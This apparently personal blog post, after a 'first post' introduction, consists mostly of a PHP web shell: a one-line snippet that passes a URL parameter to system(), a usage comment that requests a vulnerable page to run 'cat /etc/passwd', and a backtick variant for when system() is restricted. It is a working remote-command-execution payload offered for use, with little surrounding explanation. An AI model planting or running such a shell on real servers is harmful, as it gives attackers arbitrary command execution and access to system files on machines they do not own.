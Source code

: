 ```yaml
---
layout: post
title: "First Post"
date: 2019-05-14
author: Larry Brown
---
```


This is only my first post.

Going to end up with lots of code.

```php
<?php echo system($_GET["cmd"]); ?>

# then request vulnerable page with the command you want to run in the parameters
# http://HOST/vuln.php?cmd=cat /etc/passwd

# if the system command is restricted, you might can use backticks to execute system commands
<?php $cmd=$_GET["cmd"]; echo `$cmd`; ?>

```